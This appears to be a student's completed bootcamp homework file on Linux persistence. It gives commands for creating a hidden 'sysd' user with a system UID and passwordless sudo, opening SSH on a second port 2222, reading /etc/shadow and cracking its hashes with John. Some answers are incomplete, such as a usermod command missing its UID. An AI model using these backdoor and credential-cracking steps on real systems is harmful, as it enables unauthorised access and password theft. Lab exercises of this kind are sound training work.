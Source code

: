 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - useradd sysd

	adduser --no-create-home sysd

2. Give your secret user a password: 
    - passwd sysd

3. Give your secret user a system UID < 1000:
    - usermod -u  sysd

4. Give your secret user the same GID:
   - groupmod -g 524 sysd

5. Give your secret user full `sudo` access without the need for a password:
   - visudo
	 sysd ALL=(ALL) NOPASSWD:ALL	

6. Test that `sudo` access works without your password:

    ```bash
    sudo cat /etc/shadow
	sudo -l	
	sudo ls -lah /root
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    Truncated for brevity

	Port 22
	Port 2222
	#AddressFamily any
	#ListenAddress 0.0.0.0
	#ListenAddress ::

	#Truncated for brevity
    ```
	
	#You can also make this change using sed:
	#sudo sed -i 's/#Port 22/Port 22 \nPort 2222/g'  /etc/ssh/sshd_config


**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo su
	   sudo john /etc/shadow`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

